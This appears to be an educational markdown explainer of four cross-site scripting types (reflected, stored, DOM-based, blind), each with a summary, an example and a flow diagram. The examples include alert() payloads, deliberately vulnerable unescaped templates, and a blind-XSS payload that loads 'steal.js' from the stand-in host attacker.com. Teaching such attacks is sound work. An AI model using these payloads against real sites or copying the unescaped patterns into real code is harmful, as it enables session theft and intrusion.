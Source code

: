 # Cross-Site Scripting (XSS) Attack Types with Examples and Flow

This document explains the four main types of XSS vulnerabilities using code examples, execution flows (as flowchart arrows), and concise summaries.

---

## 1. Reflected XSS

### 💡 Summary

Payload is included in the request and immediately reflected in the response.

### 📜 Example

```http
GET /search?query=<script>alert(1)</script> HTTP/1.1
Host: example.com
```

```html
<!-- vulnerable server-side HTML -->
<h1>Search Results for: <%= req.query.query %></h1>
```

### 🔁 Flow

```
[Attacker] ──> [Victim clicks crafted link] ──> [Server reflects input] ──> [Browser executes payload]
```

---

## 2. Stored XSS

### 💡 Summary

Payload is stored (e.g., in a DB) and shown later to any visitor.

### 📜 Example

```html
<!-- Attacker posts this comment -->
<form action="/comment" method="POST">
  <input name="content" value='<script>alert("XSS")</script>' />
</form>
```

```html
<!-- Server later renders this -->
<p>Comment: <%= comment.content %></p>
```

### 🔁 Flow

```
[Attacker] ──> [Payload stored in DB] ──> [Victim visits page] ──> [Server renders payload] ──> [Browser executes it]
```

---

## 3. DOM-Based XSS

### 💡 Summary

Client-side JavaScript reads user-controlled input and directly modifies the DOM.

### 📜 Example

```html
<!-- Vulnerable client-side JS -->
<script>
  const search = location.hash.slice(1);
  document.body.innerHTML += `<h1>${search}</h1>`;
</script>
```

```url
http://example.com/#<script>alert('DOM XSS')</script>
```

### 🔁 Flow

```
[Attacker sends crafted URL] ──> [Victim opens it] ──> [JS reads location.hash] ──> [JS injects into DOM] ──> [Payload executes]
```

---

## 4. Blind XSS

### 💡 Summary

Stored XSS that executes in a context the attacker doesn't see directly (e.g., admin panel).

### 📜 Example

```html
<!-- Attacker submits contact form -->
<form action="/support" method="POST">
  <input name="message" value='<script src="http://attacker.com/steal.js"></script>' />
</form>
```

```html
<!-- Admin views messages in their dashboard -->
<p>Message: <%= message %></p>
```

### 🔁 Flow

```
[Attacker submits payload] ──> [Server stores it] ──> [Admin opens dashboard] ──> [Payload executes in admin browser] ──> [Attacker gets callback]
```

---


